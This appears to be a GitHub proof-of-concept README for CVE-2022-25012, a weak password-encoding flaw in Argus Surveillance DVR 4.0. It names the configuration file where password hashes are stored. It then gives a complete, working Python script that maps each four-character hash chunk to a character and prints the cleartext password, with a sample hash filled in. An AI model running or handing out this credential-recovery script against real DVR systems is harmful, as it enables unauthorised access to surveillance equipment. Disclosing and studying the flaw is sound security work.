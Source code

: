 # CVE-2022-25012

## Description:
Argus Surveillance DVR 4.0 employs a weak password encryption mechanism which can be cracked easily.

## Proof of Concept:
1. Open the configuration file `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`
2. Obtain the password hash from the variables `Password1`, `Password2`, etc.
3. Replace it with the contents of `pass_hash` in the below python code to obtain the clear text credential
```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
	print("[!] Error, check your password hash")
	exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
	split.append(pass_hash[index : index + n])

for key in split:
	if key in characters.keys():
		print("[+] " + key + ":" + characters[key])
	else:
		print("[-] " + key + ":Unknown")
```

## References:
- [CVE](https://www.cve.org/CVERecord?id=CVE-2022-25012)
- [Exploit-DB](https://www.exploit-db.com/exploits/50130)